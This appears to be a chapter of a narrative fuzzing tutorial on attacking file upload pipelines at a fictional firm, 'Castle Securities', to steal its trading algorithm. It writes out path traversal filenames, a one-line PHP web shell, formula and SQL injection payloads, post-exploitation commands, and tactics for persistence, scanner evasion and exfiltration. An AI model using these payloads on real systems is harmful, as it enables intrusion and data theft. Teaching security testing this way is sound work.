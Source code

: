 = Chapter 4: Digital Dead Drops - File Upload Exploitation

_"Sometimes the best way into a castle is to be invited as a trojan horse."_

'''

Your network protocol access revealed internal algorithm communications, but there's a frustrating limitation: you can monitor data flows and protocol traffic, but you can't extract the actual algorithm source code or training datasets. Castle Securities' data loss prevention system monitors all network exfiltration attempts, and your protocol access shows algorithm operations without revealing implementation details.

But while exploring the research portal with your authenticated access, you notice something interesting: there's a "Collaborative Research" section with file upload functionality for sharing documents with the algorithm development team. The interface allows researchers to upload analysis reports, data files, and research documents for automated processing and team collaboration.

Upload a simple text file to test it:

"Research analysis document uploaded successfully. Processing pipeline initiated."

Your network monitoring shows the upload triggered connections to multiple internal systems you discovered in Chapter 3. The file didn't just get stored--it launched a complex processing workflow across algorithm development, data analysis, and research coordination systems that were never designed to handle adversarial input.

This is your opportunity. File processing systems are complex software stacks with multiple validation layers, format parsers, and automated workflows. Each component makes assumptions about file content, structure, and origin that create attack surfaces for systematic fuzzing exploitation.

Your mission: build file format fuzzers that systematically test filename validation, file parsing logic, and processing workflows to achieve code execution and extract algorithm implementation data.

But first, you need to understand what makes file format fuzzing fundamentally different from the network protocol testing you've mastered.

'''

== Understanding File Processing as a Fuzzing Target

File processing systems are different from network protocols because they handle complex data formats, implement multi-stage processing pipelines, and often integrate with multiple backend systems for content analysis, indexing, and storage. While network protocols focus on real-time communication, file processors must parse, validate, and transform complex structured data.

Load the Collaborative Research file upload interface and examine the form:

[,html]
----
<form method="POST" action="/research/upload" enctype="multipart/form-data">
    <input name="document" type="file" accept=".pdf,.docx,.csv,.txt,.xlsx">
    <input name="category" type="select" options="Analysis,Data,Research,Internal">
    <input name="description" type="text" placeholder="Document description">
    <button type="submit">Upload for Team Review</button>
</form>
----

This simple interface represents a complex processing system with multiple attack surfaces:

* *Filename validation*: How does the system handle unusual filenames and path characters?
* *File format validation*: How thoroughly does the system validate file content vs. file extensions?
* *Content processing*: What happens when files are parsed, analyzed, and transformed?
* *Storage location*: Where are files stored and how are storage paths determined?
* *Processing workflows*: What backend systems process uploaded files and how?
* *Access controls*: How are processed files protected and who can access them?

Each component creates fuzzing opportunities that require understanding file format structure and processing logic.

=== File Processing Fuzzing Challenges

File format fuzzing involves challenges that don't exist in network protocol testing:

*Multi-Format Complexity*: File processors must handle numerous formats (PDF, Office, CSV, images) each with complex internal structure and parsing requirements.

*Processing Pipeline Integration*: Files trigger workflows across multiple systems including virus scanning, content indexing, format conversion, and analysis engines.

*Format-Specific Vulnerabilities*: Different file formats have unique vulnerability classes including macro execution, embedded content, external references, and parser memory corruption.

*Validation Layer Bypass*: File processing often has multiple validation stages that can be bypassed through format confusion and encoding manipulation.

*Processing Context Variation*: Files may be processed differently based on user context, upload source, or content classification.

Understanding these challenges is essential because file format fuzzing requires techniques that consider both file structure and processing workflow complexity.

=== The File Format Fuzzing Methodology

Effective file format fuzzing follows systematic methodology that addresses format complexity and processing pipeline security:

*1. Processing Pipeline Discovery*: Understanding how uploaded files are processed, what systems they reach, and what transformations occur

*2. Format Validation Analysis*: Testing how the system validates file types, content structure, and format compliance

*3. Filename and Path Fuzzing*: Systematically testing filename handling for path traversal and filename-based attacks

*4. Format Structure Fuzzing*: Testing file format parsing logic through systematic structure manipulation

*5. Processing Workflow Exploitation*: Leveraging discovered vulnerabilities to achieve code execution and data access

Let's apply this methodology to Castle Securities' file processing systems systematically.

'''

== Processing Pipeline Discovery and Analysis

Before fuzzing file uploads, you need to understand what happens to uploaded files within Castle Securities' infrastructure. File processing pipelines often involve multiple systems that each present different attack surfaces.

=== Upload Workflow Mapping Through Network Analysis

Your network protocol access from Chapter 3 enables monitoring file processing workflows to understand the complete attack surface before launching file format attacks.

[PLACEHOLDER:CODE Name: File processing workflow analyzer using network monitoring. Purpose: Monitors network traffic during file uploads to map processing pipelines, identify backend systems involved in file processing, and understand workflow stages and timing. Value: Essential.]

Upload a legitimate test file and monitor network traffic to map the processing workflow:

*Immediate Processing (0-5 seconds)*:

----
POST /research/upload (file upload endpoint)
→ Connection to virus-scan.internal:3310 (ClamAV virus scanning)
→ Connection to content-extract.internal:8080 (text extraction service)
→ Connection to file-store.internal:9000 (distributed file storage)
----

*Background Processing (5-60 seconds)*:

----
→ Connection to index-engine.internal:9200 (Elasticsearch content indexing)
→ Connection to format-convert.internal:8081 (document format conversion)
→ Connection to ml-analyze.internal:5000 (machine learning content analysis)
----

*Integration Processing (60+ seconds)*:

----
→ Connection to research-db.internal:5432 (database integration)
→ Connection to notification.internal:587 (email notification system)
→ Connection to audit-log.internal:514 (audit logging service)
----

This workflow mapping reveals that your uploaded file reaches eight different internal systems, each representing a potential attack surface for file format exploitation.

=== File Format Validation Discovery

Understanding how Castle Securities validates uploaded files is crucial for building effective format-based attacks. Different validation approaches create different bypass opportunities.

[PLACEHOLDER:CODE Name: File format validation analyzer through systematic upload testing. Purpose: Tests file uploads with various format combinations to discover validation logic, identifies which validations are filename-based vs. content-based, maps validation bypass opportunities. Value: High.]

Test file format validation systematically:

*Extension vs. Content Validation Testing*:

----
Upload: test.pdf (actual PDF content) → "Processing successful"
Upload: test.pdf (text content) → "Invalid PDF format detected"
Upload: shell.php (PHP content) → "File type not permitted"
Upload: test.txt (PHP content) → "Processing successful"
----

*Multi-Extension Testing*:

----
Upload: test.pdf.txt → "Processing successful" (treated as text file)
Upload: test.txt.pdf → "Invalid PDF format detected" (treated as PDF)
Upload: test.pdf.php.txt → "Processing successful" (final extension used)
----

*MIME Type vs. Extension Testing*:

----
Upload: test.txt + Content-Type: application/pdf → "Processing successful"
Upload: test.pdf + Content-Type: text/plain → "Invalid PDF format detected"
----

*Format Spoofing Testing*:

----
Upload: test.txt with PDF magic bytes (%PDF-1.4) → "Processing successful"
Upload: test.pdf with text content → "Invalid PDF format detected"
----

This systematic validation analysis reveals that Castle Securities uses filename extension for initial filtering but validates content format for specific file types, creating opportunities for validation bypass.

=== Processing System Vulnerability Assessment

Each system in the processing pipeline presents different attack surfaces based on its function and implementation. Understanding these differences guides targeted exploitation.

[PLACEHOLDER:CODE Name: Processing system attack surface analyzer. Purpose: Analyzes each processing system's functionality and potential vulnerabilities, maps file format attack vectors for each system, prioritizes targets based on access and impact. Value: High.]

Map attack surfaces for each processing system:

*Virus Scanner (ClamAV)*:

* Known vulnerabilities in signature detection
* Archive handling and nested file extraction
* Resource exhaustion through complex file structures

*Content Extractor*:

* Text extraction from complex formats (PDF, Office)
* Memory corruption in format parsers
* External reference handling (URLs, linked documents)

*Format Converter*:

* Document format transformation (PDF→HTML, Office→PDF)
* Complex format processing with multiple input/output formats
* Potential for format confusion attacks

*ML Content Analyzer*:

* Machine learning model inference on file content
* Potential for adversarial input attacks
* Text processing and natural language analysis

*Database Integration*:

* SQL injection through extracted content
* Data validation and sanitization issues
* Business logic bypass through content manipulation

Each system presents different optimization opportunities for file format exploitation.

'''

== Building Filename and Path Fuzzing Tools

Filename-based attacks often provide the most direct path to code execution because they can affect file storage location, processing logic, and system integration without requiring complex format manipulation.

=== Systematic Path Traversal Testing

Path traversal attacks attempt to control file storage location through filename manipulation, potentially allowing file writes to system directories, web roots, or configuration locations.

[PLACEHOLDER:CODE Name: Systematic path traversal fuzzer for file upload exploitation. Purpose: Generates comprehensive filename-based path traversal payloads, tests various encoding and bypass techniques, validates successful traversal through response analysis. Value: Essential.]

Build systematic path traversal attacks using multiple encoding and bypass techniques:

*Basic Path Traversal Patterns*:

----
../../../etc/passwd.txt
....//....//....//etc//passwd.txt
..%2f..%2f..%2fetc%2fpasswd.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd.txt
----

*Operating System Specific Patterns*:

----
Unix/Linux: ../../../etc/passwd.txt
Windows: ..\..\..\windows\system32\config\sam.txt
Mixed: ../../../windows/system32/config/sam.txt
----

*Web Application Specific Targets*:

----
../../../var/www/html/shell.php.txt
../../../opt/castle/config/database.conf.txt
../../../home/castle/.ssh/id_rsa.txt
----

*Encoding Bypass Techniques*:

----
Double encoding: %252e%252e%252f
Unicode encoding: \u002e\u002e\u002f
UTF-8 overlong: %c0%ae%c0%ae%c0%af
----

Test each path traversal technique against Castle Securities' upload system and analyze responses for success indicators.

=== Filename-Based Code Execution

Some file processing systems execute or serve uploaded files based on filename characteristics, creating opportunities for direct code execution through filename manipulation.

[PLACEHOLDER:CODE Name: Filename-based code execution fuzzer for upload exploitation. Purpose: Tests filename patterns that might trigger code execution, script processing, or file serving from executable locations. Identifies filename-based attack vectors. Value: High.]

Test filename patterns that might trigger execution or special processing:

*Executable Extension Testing*:

----
shell.php.txt (PHP disguised as text)
script.jsp.txt (JSP disguised as text)
command.asp.txt (ASP disguised as text)
macro.docm.txt (Macro-enabled Office document)
----

*Special Directory Targeting*:

----
../../../var/www/html/cmd.php.txt (web root targeting)
../../../tmp/shell.sh.txt (temp directory execution)
../../../opt/castle/scripts/backdoor.py.txt (application directory)
----

*Configuration File Targeting*:

----
../../../etc/crontab.txt (scheduled execution)
../../../opt/castle/config/startup.sh.txt (application startup)
../../../var/log/access.log.txt (log injection)
----

*Hidden File and Directory Testing*:

----
.htaccess.txt (Apache configuration)
.bashrc.txt (shell configuration)
.ssh/authorized_keys.txt (SSH access)
----

Systematic filename testing often discovers file processing logic that enables code execution through path manipulation.

=== Dynamic Filename Generation and Testing

Advanced filename fuzzing uses intelligence gathered from previous discoveries to generate context-aware attacks that target Castle Securities' specific infrastructure.

[PLACEHOLDER:CODE Name: Intelligence-driven filename generator for targeted path attacks. Purpose: Uses discovered system information to generate context-aware path traversal and filename attacks targeting Castle Securities' specific infrastructure and technology stack. Value: Medium.]

Generate targeted filenames based on discovered infrastructure:

*Technology Stack Targeting* (based on network discovery):

----
../../../opt/python/lib/django/conf/settings.py.txt
../../../var/castle/research/algorithms/argos.py.txt
../../../home/postgres/data/postgresql.conf.txt
----

*Service-Specific Targeting* (based on service discovery):

----
../../../var/log/argos-prod-01/algorithm.log.txt
../../../opt/castle/market-data/config.json.txt
../../../var/research-db/backup/dump.sql.txt
----

*Business Logic Targeting* (based on application understanding):

----
../../../var/castle/algorithms/production/argos-v3.py.txt
../../../opt/research/training-data/model-parameters.json.txt
../../../var/trading/config/api-keys.conf.txt
----

Intelligence-driven filename generation significantly improves attack success rates compared to generic path traversal attempts.

'''

== File Format Structure Fuzzing

Beyond filename attacks, file format fuzzing targets the parsing logic that processes file content. Different file formats have unique structure and vulnerability classes that require format-specific fuzzing approaches.

=== PDF Format Structure Fuzzing

PDF files have complex internal structure with multiple opportunities for parser exploitation through systematic structure manipulation.

[PLACEHOLDER:CODE Name: PDF structure fuzzer for parser vulnerability discovery. Purpose: Generates systematically malformed PDF files to test PDF parsing logic, including oversized fields, malformed objects, and structure violations. Tests Castle Securities' PDF processing pipeline. Value: High.]

PDF fuzzing targets multiple structural components:

*PDF Header Fuzzing*:

----
Normal: %PDF-1.4
Oversized Version: %PDF-999.999
Invalid Format: %PDF-X.Y
Missing Header: (start with PDF objects directly)
----

*Object Structure Fuzzing*:

----
Oversized Object Numbers: 1 999999999 obj
Invalid Object References: /Parent 999999 0 R
Circular References: Object A references Object B, which references Object A
Missing End Markers: obj without endobj
----

*Content Stream Fuzzing*:

----
Oversized Content Lengths: /Length 999999999
Negative Content Lengths: /Length -1
Missing Content Data: /Length 1000 with only 100 bytes of data
Compressed Stream Errors: Invalid Flate compression data
----

*Cross-Reference Table Fuzzing*:

----
Invalid Object Offsets: xref pointing to wrong file positions
Missing Objects: xref referencing non-existent objects
Corrupted xref Format: Invalid xref table structure
----

Systematic PDF structure fuzzing often discovers memory corruption vulnerabilities in PDF parsing libraries.

=== Office Document Format Fuzzing

Microsoft Office documents support complex features including macros, embedded objects, and external references that create multiple attack vectors for systematic exploitation.

[PLACEHOLDER:CODE Name: Office document structure fuzzer for complex format exploitation. Purpose: Generates malformed Office documents with embedded content, external references, and format violations to test Office document processing systems. Value: High.]

Office document fuzzing targets multiple attack surfaces:

*Document Structure Fuzzing*:

----
Corrupted ZIP Structure: Office docs are ZIP files with corrupted archives
Missing Required Files: Remove essential document.xml files
Oversized Content: Extremely large document components
Invalid XML: Malformed XML within document structure
----

*Macro and Embedded Content Testing*:

----
Hidden Macros: Macros in unexpected document locations
Embedded Executables: PE files embedded in document structure
External References: Links to attacker-controlled resources
Formula Injection: Spreadsheet formulas with command execution
----

*Relationship and Reference Testing*:

----
External Relationships: References to external files and URLs
Circular Relationships: Document parts referencing each other
Invalid Relationships: References to non-existent document parts
Oversized Relationships: Extremely complex relationship structures
----

*Format Confusion Testing*:

----
Extension Mismatch: .docx files with .xlsx content
Version Confusion: Modern formats with legacy structure
Hybrid Documents: Documents with mixed format elements
----

Office document fuzzing often discovers both parsing vulnerabilities and business logic bypass opportunities.

=== CSV and Data Format Fuzzing

CSV and structured data files present opportunities for injection attacks when processed by database systems, analysis engines, or business logic components.

[PLACEHOLDER:CODE Name: CSV and structured data fuzzer for injection attack discovery. Purpose: Generates malformed CSV files with injection payloads targeting database import, formula execution, and data processing vulnerabilities. Value: Medium.]

CSV fuzzing targets data processing logic:

*CSV Structure Fuzzing*:

----
Field Separator Confusion: Mix comma, tab, semicolon separators
Quote Character Abuse: Unmatched quotes, nested quotes
Line Ending Confusion: Mix Unix, Windows, Mac line endings
Encoding Issues: Mixed character encodings within single file
----

*Injection Payload Testing*:

----
SQL Injection: CSV fields containing SQL commands
Formula Injection: =cmd|'command'!A1 in spreadsheet-processed CSVs
Command Injection: $(command) or `command` in processed fields
LDAP Injection: Special characters affecting LDAP queries
----

*Data Validation Testing*:

----
Oversized Fields: Extremely long CSV field values
Type Confusion: Text in numeric fields, numbers in text fields
Special Characters: Unicode, control characters, null bytes
Buffer Overflow: Fields designed to overflow processing buffers
----

*Business Logic Testing*:

----
Duplicate Headers: CSV files with repeated column names
Missing Required Fields: CSVs missing expected data columns
Invalid Data Ranges: Dates, numbers outside expected ranges
Malicious File References: CSV fields containing file paths
----

CSV injection often provides direct access to backend database and processing systems.

'''

== Processing Workflow Exploitation and Code Execution

Individual file format vulnerabilities are useful, but maximum impact requires chaining multiple vulnerabilities across the complete processing pipeline to achieve code execution and data access.

=== Multi-Stage Attack Orchestration

File processing pipelines create opportunities for multi-stage attacks where vulnerabilities in different systems combine to provide comprehensive access.

[PLACEHOLDER:CODE Name: Multi-stage file processing attack orchestrator. Purpose: Coordinates file upload attacks across multiple processing systems, chains filename and format vulnerabilities for maximum impact, orchestrates systematic exploitation of complete processing pipeline. Value: High.]

Orchestrate attacks across the complete processing pipeline:

*Stage 1: Initial Access Through Filename Manipulation*

----
Filename: ../../../var/www/html/research/cmd.php.txt
Content: <?php system($_GET['c']); ?>
Result: Web shell deployed to accessible location
----

*Stage 2: Processing System Reconnaissance*

----
Command: ps aux | grep castle
Result: Discover running Castle Securities services and configurations
Command: find /opt/castle -name "*.py" | head -20
Result: Locate algorithm source code and configuration files
----

*Stage 3: Algorithm Data Extraction*

----
Command: tar -czf /tmp/algorithm-data.tar.gz /opt/castle/algorithms/
Upload: Malicious PDF triggering file exfiltration via processing system
Result: Algorithm source code and training data extraction
----

*Stage 4: Database Access Through Processing Integration*

----
CSV Injection: File processed by database import system
Payload: '; COPY (SELECT * FROM algorithm_config) TO '/var/www/html/data.txt'; --
Result: Database content extraction through CSV processing
----

Multi-stage orchestration transforms individual file vulnerabilities into comprehensive system compromise.

=== Persistence and Data Exfiltration

File processing system compromise enables establishing persistence and systematic data exfiltration while avoiding network-based data loss prevention systems.

[PLACEHOLDER:CODE Name: File-based persistence and data exfiltration system. Purpose: Uses compromised file processing systems to establish persistent access and extract algorithm data through file-based channels that bypass network monitoring. Value: High.]

Establish persistence through file processing compromise:

*File System Persistence*:

----
Scheduled Processing: Files that trigger periodic processing with embedded commands
Configuration Injection: Modify processing system configuration files
Log File Manipulation: Inject commands into processed log files
Template Modification: Modify document processing templates with embedded scripts
----

*Data Exfiltration Through Processing Systems*:

----
Document Generation: Trigger report generation containing algorithm data
Email Integration: Use notification systems to email extracted data
File Transformation: Embed data in processed document formats
Archive Creation: Generate backup archives containing algorithm source code
----

*Processing System Backdoors*:

----
Content Analysis Bypass: Modify content analysis systems to ignore malicious files
Virus Scanning Bypass: Whitelist malicious files in virus scanning configuration
Format Converter Abuse: Use format conversion to transform and exfiltrate data
Database Integration Abuse: Use database processing to extract and transform data
----

File-based persistence often provides more reliable access than network-based backdoors.

'''

== Professional File Format Testing Methodology

Individual file format attacks are useful, but professional security assessment requires systematic methodology that comprehensively evaluates file processing security across complex applications.

=== Integrated File Processing Security Assessment

Professional file format testing requires understanding how file processing integrates with complete business systems rather than testing file handlers in isolation.

[PLACEHOLDER:CODE Name: Comprehensive file processing security assessment framework. Purpose: Integrates filename, format structure, and processing workflow testing into systematic methodology for evaluating file processing security across complete business applications. Value: Essential.]

Comprehensive file processing assessment systematically evaluates:

*Processing Pipeline Mapping*: Understanding complete file handling workflows from upload through final processing
*Format Validation Analysis*: Testing validation logic for multiple file formats and bypass opportunities
*Filename Security Testing*: Systematic path traversal and filename-based attack testing
*Format Structure Testing*: Parser vulnerability discovery through systematic format manipulation
*Processing Integration Testing*: Testing how file processing integrates with broader business systems

This comprehensive approach ensures no file processing attack surface is missed.

=== Quality Control and Impact Assessment for File Vulnerabilities

File processing vulnerabilities often have significant business impact because they can affect data integrity, system availability, and provide access to sensitive business information.

[PLACEHOLDER:CODE Name: File processing vulnerability validation and impact assessment system. Purpose: Validates discovered file processing vulnerabilities, assesses business impact and data access implications, generates professional reporting for file security issues. Value: Medium.]

Quality control for file processing testing includes:

*Reproducibility Validation*: Confirming file processing vulnerabilities work consistently across different upload contexts
*Business Impact Assessment*: Understanding how file processing compromise affects business operations and data security
*Data Access Evaluation*: Assessing what sensitive information becomes accessible through file processing exploitation
*System Integration Impact*: Understanding how file processing vulnerabilities enable broader system compromise

Professional file processing assessment provides comprehensive evaluation of document handling security.

=== Documentation and Remediation Guidance

File processing testing generates complex findings that affect multiple systems and require clear technical and business communication.

[PLACEHOLDER:CODE Name: Professional file processing testing documentation and reporting system. Purpose: Generates comprehensive documentation of file processing testing methodology, discovered vulnerabilities, and business impact suitable for both technical remediation and business decision-making. Value: Medium.]

Professional documentation should include:

*Methodology Documentation*: Complete description of file format testing techniques and processing pipeline analysis
*Technical Findings*: Detailed technical description of discovered vulnerabilities with reproduction steps and code samples
*Business Impact Assessment*: Evaluation of how file processing vulnerabilities affect business operations and data security
*Remediation Recommendations*: Specific technical recommendations for improving file processing security across all affected systems

This documentation enables both immediate vulnerability remediation and systematic improvement of file processing security.

'''

== What You've Learned and What's Next

You've successfully applied systematic fuzzing to Castle Securities' file processing infrastructure and achieved comprehensive access to their algorithm development systems. More importantly, you've learned file format fuzzing techniques that apply to any modern application with file handling capabilities.

Your file format fuzzing capabilities now include:

*Processing pipeline analysis* through network monitoring and workflow discovery
*Systematic filename and path fuzzing* for achieving code execution and file system access
*Format structure fuzzing* targeting PDF, Office, and CSV parsing vulnerabilities
*Multi-stage attack orchestration* combining multiple file processing vulnerabilities for maximum impact

Your current access to Castle Securities includes:

*Algorithm development system access* through file processing exploitation and web shell deployment
*Source code and configuration access* through path traversal and processing system compromise
*Database connectivity* through CSV injection and processing system integration
*Persistent access mechanisms* through file processing backdoors and system modification

But file processing access provides pathways to stored data rather than the data itself. The ARGOS algorithm implementation, training datasets, and configuration parameters exist in databases and data stores that your file processing compromise can now access directly.

In the next chapter, you'll learn SQL injection fuzzing to systematically extract the complete algorithmic trading system from Castle Securities' databases. This represents the core technical challenge of extracting structured algorithm data through systematic database exploitation.

Your fuzzing education has progressed from web reconnaissance through authentication, network protocols, and file processing to database exploitation. Next, you'll apply your methodology to the challenge of systematically extracting proprietary financial algorithms through database security testing--the final technical barrier to obtaining the complete Infinite Money Machine implementation.

'''

*Next: Chapter 5 - The Vault: Database Infiltration*

_"Their algorithm lives in the data vaults. Time to crack the treasury."_
